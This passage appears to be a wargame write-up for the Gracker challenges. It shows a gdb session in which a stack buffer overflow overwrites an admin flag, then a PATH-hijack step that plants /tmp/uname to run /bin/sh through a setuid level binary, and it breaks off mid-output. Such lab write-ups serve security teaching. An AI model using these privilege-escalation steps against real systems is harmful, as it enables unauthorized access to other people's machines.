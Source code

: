 ```
Zero Cool - Bugdoor v4                                             ; now let's restart and put in a bunch more
Enter Password:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x0000000000400747 in main ()
(gdb) x/32x $rsp                                                   ; stack looks very full with As
0x7ffe1e40c2b0: 0x1e40c3f8  0x00007ffe  0xfbecb4c0  0x00000001
0x7ffe1e40c2c0: 0x41414141  0x41414141  0x41414141  0x41414141
0x7ffe1e40c2d0: 0x41414141  0x41414141  0x41414141  0x41414141
0x7ffe1e40c2e0: 0x41414141  0x41414141  0x41414141  0x41414141
0x7ffe1e40c2f0: 0x41414141  0x41414141  0x41414141  0x41414141
0x7ffe1e40c300: 0x41414141  0x41414141  0x41414141  0x41414141
0x7ffe1e40c310: 0x41414141  0x41414141  0x41414141  0x41414141
0x7ffe1e40c320: 0x41414141  0x41414141  0x41414141  0x41414141
(gdb) x $rbp-0x4                                                   ; and it looks like that admin_enabled got overwritten with AAAA as well.
0x7ffe1e40c30c: 0x41414141
(gdb) info register eax                                            ; yup. eax is not 0 anymore.
eax            0x41414141   1094795585
(gdb)
```

# Gracker Level 4

This was a bit complicated, but after a bit of research I was able to reset the environment variable, `PATH`, and create files in the /tmp/ directory to replace the commands used in the program.

```
level4@gracker:~$ touch /tmp/uname
level4@gracker:~$ cat /tmp/uname
#!/bin/bash
/bin/sh
level4@gracker:~$ export
HOME=/home/level4
LANG=en_US.UTF-8
LANGUAGE=en_US:en
LC_ALL=en_US.UTF-8
LOGNAME=level4
MAIL=/var/mail/level4
PATH=/usr/sbin/:/sbin/:/usr/local/bin:/usr/bin:/bin:/usr/games
SHELL=/usr/bin/zsh
SSH_CLIENT='71.140.148.118 55926 22'
SSH_CONNECTION='71.140.148.118 55926 5.45.103.62 22'
SSH_TTY=/dev/pts/4
TERM=xterm-256color
USER=level4
XDG_RUNTIME_DIR=/run/user/1004
XDG_SESSION_ID=34440
level4@gracker:~$ PATH=/tmp /matrix/level4/level4 
Zero Cool - Linux Information Gathering Tool v1.2

[*] Get system information:
sh: 1: uname: Permission denied

[*] Find users available on this system:
sh: 1: cut: Permission denied

[*] Search for setuid binaries:
ls
ls
```